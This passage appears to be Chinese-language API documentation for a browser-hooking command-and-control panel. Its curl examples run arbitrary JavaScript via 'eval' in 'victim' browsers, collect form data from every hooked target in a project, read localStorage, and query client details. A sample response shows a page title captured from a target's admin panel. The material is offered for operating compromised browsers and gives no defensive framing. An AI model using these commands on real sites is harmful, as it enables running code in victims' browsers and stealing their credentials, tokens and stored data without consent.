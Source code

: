 ### 示例 3: 在指定项目的指定靶机执行 JavaScript
```bash
curl -X POST "http://localhost:8088/api/clients/victim_123/commands?project=PROJ123456" \
  -H "Content-Type: application/json" \
  -d '{
    "command": "eval",
    "args": {
      "code": "document.title"
    }
  }'

# 响应示例:
{
  "status": "success", 
  "message": "命令执行完成，收到 1 个结果",
  "data": {
    "command": "eval",
    "target_id": "victim_123",
    "results": [
      {
        "client_id": "victim_123",
        "command": "eval",
        "result": "管理后台 - 用户管理", 
        "url": "https://admin.target.com/users",
        "timestamp": 1640995200
      }
    ],
    "count": 1
  }
}
```

### 示例 4: 从项目内所有靶机获取表单信息
```bash
curl -X POST "http://localhost:8088/api/commands?project=PROJ123456" \
  -H "Content-Type: application/json" \
  -d '{
    "command": "forms"
  }'
```

### 示例 5: 获取特定客户端信息
```bash
curl -X GET "http://localhost:8088/api/clients/victim_123"
```

### 示例 6: 获取本地存储数据
```bash
curl -X POST "http://localhost:8088/api/commands?project=PROJ123456" \
  -H "Content-Type: application/json" \
  -d '{
    "command": "localStorage"
  }'
```

---